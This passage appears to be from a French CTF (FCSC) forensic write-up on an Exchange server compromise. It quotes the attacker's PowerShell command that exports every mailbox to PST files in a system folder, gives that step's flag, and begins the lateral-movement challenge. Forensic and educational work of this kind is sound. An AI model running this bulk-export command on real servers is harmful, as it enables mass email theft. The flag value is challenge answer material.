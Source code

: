 This **ScriptBlock** (Notice not a Cmdline) exports all Mailbox contained in the Exchange server. We got our exfiltration. Just need to SHA256 the whole line.
{{< /admonition >}}

Here is the whole malicious command:

```powershell
foreach ($Mailbox in (Get-Mailbox -ResultSize Unlimited)) {New-MailboxExportRequest -Mailbox $Mailbox.DisplayName -FilePath "C:\windows\system32\xwin\($Mailbox.Alias).pst"}
```

{{< admonition type=success title="Interesting..." >}}
:triangular_flag_on_post: `FCSC{2ee0ab1d44c759b09159ef21900c9826239a7b63e25c0e5935f200d30348b588}`
{{< /admonition >}}

## 4/5 : Lateralisation

### Description

>Sur une courte période de temps, l'attaquant a essayé de se connecter à de nombreuses machines, comme s'il essayait de réutiliser les secrets volés dans la partie 2. Cela lui a permis de se connecter à la machine Workstation2. Retrouver l'IP source, le compte utilisé et l'heure UTC de cette connexion.
>
>Format du flag (insensible à la casse) : `FCSC{192.168.42.27|MYCORP\Technician|2021-11-27T17:38:54}`.

**:star:**

### Screenshot

![](screen4.png)
